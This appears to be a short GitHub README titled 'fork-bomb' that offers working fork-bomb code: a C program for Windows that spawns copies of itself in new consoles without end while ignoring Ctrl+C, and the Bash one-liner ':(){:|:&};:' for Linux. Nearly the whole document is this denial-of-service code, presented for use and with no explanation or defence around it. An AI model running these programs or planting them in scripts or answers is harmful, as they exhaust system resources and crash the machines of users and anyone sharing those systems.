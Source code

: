 # fork-bomb


*C Code for windows fork bomb*


#include <windows.h>
int main(int argc,char **argv) {
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    while (1) {
        SetConsoleCtrlHandler(0, 1);
        CreateProcess(*argv, 0, 0, 0, 0, CREATE_NEW_CONSOLE, 0, 0, &si, &pi);
    }
    return 0;
} 

*Bash Fork bomb for Linux*
:(){:|:&};:
